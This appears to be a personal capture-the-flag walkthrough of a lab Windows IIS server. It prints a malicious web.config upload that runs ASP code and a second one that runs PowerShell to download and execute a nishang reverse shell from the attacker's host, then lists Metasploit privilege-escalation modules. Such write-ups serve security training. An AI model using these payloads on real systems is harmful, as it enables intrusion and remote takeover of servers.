





http://10.10.10.93/transfer.aspx

Weird 500 error - http://10.10.10.93:80/%22julie%20roehm%22.aspx
HTTP/1.1 500 Internal Server Error
Cache-Control: private
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/7.5
X-AspNet-Version: 2.0.50727
X-Powered-By: ASP.NET
Date: Mon, 18 Dec 2023 21:20:27 GMT
Content-Length: 3026
I tried using burpsuite to see what files we could upload but it wouldnt work for me. I ended up using the guided mode to get a hint. Burp should have worked but didnt. We can upload .config files.
So I find a malicious asp net web.config file and we can upload it. The initial test just displays the number 3.
web.config file contents
<?xml version="1.0" encoding="UTF-8"?><configuration> <system.webServer> <handlers accessPolicy="Read, Script, Write"> <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /> </handlers> <security> <requestFiltering> <fileExtensions> <remove fileExtension=".config" /> </fileExtensions> <hiddenSegments> <remove segment="web.config" /> </hiddenSegments> </requestFiltering> </security> </system.webServer></configuration><!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!<%Response.write("-"&"->")' it is running the ASP code if you can see 3 by opening the web.config file!Response.write(1+2)Response.write("<!-"&"-")%>-->

New web.config file which reaches out to our machine, downloads a powershell script and essentially runs netcat
We download Invoke-PowerShellTcp.ps1 from https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 and we add an option to execute this at the end of the script. We upload the new web.config file and when we access the page it calls to our machine and downloads the ps1 file, executes it and gives us a shell.
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.25 -Port 9999
<?xml version="1.0" encoding="UTF-8"?><configuration> <system.webServer> <handlers accessPolicy="Read, Script, Write"> <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /> </handlers> <security> <requestFiltering> <fileExtensions> <remove fileExtension=".config" /> </fileExtensions> <hiddenSegments> <remove segment="web.config" /> </hiddenSegments> </requestFiltering> </security> </system.webServer></configuration><%@ Language=VBScript %><% call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.25:8000/Invoke-PowerShellTcp.ps1')")%>

Impersonate is available so we should be able to do a potato attack

User.txt is on the desktop but its hidden
Tried running rotten potato but it failed. I want to avoid using metasploit modules if possible.
1 exploit/windows/local/bypassuac_eventvwr Yes The target appears to be vulnerable.
2 exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move Yes The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
3 exploit/windows/local/ms10_092_schelevator Yes The service is running, but could not be validated.
4 exploit/windows/local/ms13_053_schlamperei Yes The target appears to be vulnerable.
5 exploit/windows/local/ms13_081_track_popup_menu Yes The target appears to be vulnerable.
6 exploit/windows/local/ms14_058_track_popup_menu Yes The target appears to be vulnerable.
7 exploit/windows/local/ms15_051_client_copy_image Yes The target appears to be vulnerable.
8 exploit/windows/local/ms16_075_reflection Yes The target appears to be vulnerable.
9 exploit/windows/local/ms16_075_reflection_juicy Yes The target appears to be vulnerable.
10 exploit/windows/local/ppr_flatten_rec
I realized I had a x86 bit shell and changed to x64 but still couldnt get the exploit to work. I decided to use the metasploit module which I was able to use reflection juicy. I also tried it on the x86 session but it failed. x64 fixed it.
